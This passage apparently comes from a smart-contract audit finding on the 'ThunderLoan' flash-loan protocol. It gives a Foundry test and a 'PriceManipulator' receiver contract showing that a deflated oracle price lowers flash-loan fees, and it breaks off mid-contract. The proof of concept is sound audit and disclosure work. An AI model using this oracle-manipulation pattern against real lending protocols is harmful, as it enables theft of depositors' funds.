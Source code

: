 Add this Test To `ThunderLoanTest.t.sol`:

```javascript
   function testPriceOfFeeCalculationInFlashLoanCanBeManipulated() public setAllowedToken hasDeposits {
        // MockTSwapPool Returns 1e18 WETH for Each Token A
        // If Attacker Sends Large Amounts Of Token A to that Pool, The Price of Token A Will Deflate and Attacker Will Take The Second Flash Loan Much Cheaper
        // First Lets take a Flash Loan When Price of Each Token A is Equal to 1e18.

        PriceManipulator priceManipulator = new PriceManipulator(thunderLoan, tokenA);
        tokenA.mint(address(priceManipulator), 2e18);
        uint256 firstFlashLoanFee = thunderLoan.getCalculatedFee(tokenA, 1e10);
        thunderLoan.flashloan(address(priceManipulator), tokenA, 1e10, "");

        // Attacker Sends Huge Amounts of Token A to TSwap Pool Which Causes the Price of Each Token A Deflate to 1e15

        thunderLoan.setPrice(address(tokenA), 1e15);
        uint256 secondFlashLoanFee = thunderLoan.getCalculatedFee(tokenA, 1e10);
        thunderLoan.flashloan(address(priceManipulator), tokenA, 1e10, "");

        console.log("First Flash Loan Fee: ", firstFlashLoanFee);
        console.log("Second Flash Loan Fee: ", secondFlashLoanFee);

        assert(firstFlashLoanFee > secondFlashLoanFee);
    }
```

and this is the Flash Loan Receiever Contract:

```javascript
      contract PriceManipulator {

         ThunderLoan thunderLoan;
         ERC20Mock tokenA;
         MockTSwapPool tswapPool;

         bool isFirstFlashLoan = true;
         uint256 public secondFlashLoanFee;

         constructor(ThunderLoan _thunderLoan, ERC20Mock _tokenA) {
            thunderLoan = _thunderLoan;
            tokenA = _tokenA;
         }

         function executeOperation(
            address token,
            uint256 amount,
            uint256 fee,
            address /*initiator*/,
            bytes calldata /*  params */
         )
            external
            returns (bool)
         {
            if (isFirstFlashLoan) {
                  IERC20(token).approve(address(thunderLoan), amount + fee);
                  IThunderLoan(address(thunderLoan)).repay(token, amount + fee);
                  isFirstFlashLoan = false;
                  return true;
            } else {
                  secondFlashLoanFee = fee;
                  IERC20(token).approve(address(thunderLoan), amount + fee);
                  IThunderLoan(address(thunderLoan)).repay(token, amount + fee);
```